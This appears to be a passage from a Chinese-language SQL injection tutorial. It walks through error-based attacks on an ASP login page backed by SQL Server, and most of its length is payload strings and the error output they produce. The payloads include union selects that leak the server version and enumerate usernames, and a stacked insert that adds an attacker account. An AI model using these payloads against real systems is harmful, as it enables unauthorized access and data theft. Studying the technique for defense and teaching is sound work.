 Username：&amp;apos; union select sum(id) from users-

Microsoft OLE DB Provider for ODBC Drivers error &amp;apos;80040e14&amp;apos;

[Microsoft][ODBC SQL Server Driver][SQL Server]All queries in an SQL statement containing a UNION operator must have an equal number of expressions in their target lists.

/process_login.asp, line 35

我们可以用这种技术近似地确定数据库中任何表中的任何字段的类型。

这样攻击者就可以写一个好的insert查询，例如：

Username：&amp;apos;;insert into users values(666,&amp;apos;attacker&amp;apos;,&amp;apos;foobar&amp;apos;,&amp;apos;0xffff)-

这种技术的潜在影响不仅仅是这些。攻击者可以利用这些错误消息显示环境信息或数据库。通过运行一列一定格式的字符串可以获得标准的错误消息：

select * from master ..sysmessages

解释这些将实现有趣的消息。

一个特别有用的消息关系到类型转化。如果你尝试将一个字符串转化成一个整型数字，那么字符串的所有内容会返回到错误消息中。例如在我们简单的登陆页面中，在username后面会显示出SQLSERVER的版本和所运行的操作系统信息：

Username：&amp;apos; union select @@version,1,1,1-

Microsoft OLE DB Provider for ODBC Drivers error &amp;apos;80040e07&amp;apos;

[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value &amp;apos;Microsoft SQL Server 2000 - 8.00.194 (Intel X86) Aug 6 2000 00:57:48 Copyright (c) 1988-2000 Microsoft Corporation Enterprise Edition on Windows NT 5.0 (Build 2195: Service Pack 2) &amp;apos; to a column of data type int.

/process_login.asp, line 35

这句尝试去将内置的&amp;apos;@@version&amp;apos;常量转化成一个整型数字，因为users表中的第一列是整型数字。

这种技术可以用来读取数据库中任何表的任何值。自从攻击者对用户名和用户密码比较感兴趣后，他们比较喜欢去从users表中读取用户名，例如：

Username：&amp;apos; union select min(username),1,1,1 from users where username&gt;&amp;apos;a&amp;apos;-

这句选择users表中username大于&amp;apos;a&amp;apos;中的最小值，并试图把它转化成一个整型数字：

Microsoft OLE DB Provider for ODBC Drivers error &amp;apos;80040e07&amp;apos;

[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the varchar value &amp;apos;admin&amp;apos; to a column of data type int.

/process_login.asp, line 35

因此攻击者已经知道用户admin是存在的。这样他就可以重复通过使用where子句和查询到的用户名去寻找下一个用户。

Username：&amp;apos; union select min(username),1,1,1 from users where username&gt;&amp;apos;admin&amp;apos;-

Microsoft OLE DB Provider for ODBC Drivers error &amp;apos;80040e07&amp;apos;

[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the varchar value &amp;apos;chris&amp;apos; to a column of data type int.

/process_login.asp, line 35

